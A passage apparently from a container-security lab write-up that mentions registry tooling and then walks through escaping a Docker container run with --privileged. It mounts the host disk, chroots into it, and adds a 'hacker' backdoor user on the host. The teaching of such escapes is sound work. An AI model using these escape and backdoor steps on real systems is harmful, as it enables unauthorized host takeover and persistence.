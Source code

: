 <p>As a brief aside, if using <code class="docutils literal notranslate"><span class="pre">curl</span></code> to custom-create API queries isn’t your thing, but you still need to take a peek under
the covers from time to time, I recommend using
<a class="reference external" href="https://github.com/google/go-containerregistry/blob/main/cmd/crane/doc/crane.md"><code class="docutils literal notranslate"><span class="pre">crane</span></code></a>.</p>

<div class="admonition seealso">
<p class="admonition-title">See also</p>
<p>Want more like the above? Well, to start I recommend checking out
<a class="reference external" href="https://raesene.github.io/blog/2023/02/11/Fun-with-Containers-adding-tracking-to-your-images/">this</a> incredibly
interesting blog post about how OCI images can be modified to track when it’s pulled, and anything online from a group
that calls themselves SIG-Honk.</p>
<p>Also, keep an eye out for additional labs by myself in the future 😉</p>
</div>
---

## Container Break Out

Alright, now it’s time for our last section, a container escape.

We’ll start by running a standard Ubuntu container with some additional privileges which are sometimes used when trying to troubleshoot permissions issues:

	docker run -it --privileged ubuntu:20.04


Then, by abusing the additional access from the `--privileged` argument, we can mount the host filesystem, which in my example is on `/dev/xvda1`:

```bash
mount | grep '/dev/'

ls -al /home # Nothing in the home directory in the container

mount /dev/xvda1 /mnt

chroot /mnt
```

![Pasted image 20230509213846.png](https://raw.githubusercontent.com/Xp101T7/Xp101T7.github.io/main/images/Pasted%20image%2020230509213846.png)

Now that we’ve `chroot`ed into that filesystem, we are effectively on the host computer. Let’s see see if we can find anything juicy, and maybe drop a quick backdoor for ourselves later:

```bash
ls -al /home # We can now see /home/ubuntu/ on the host filesystem

sudo useradd hacker

sudo passwd hacker
```
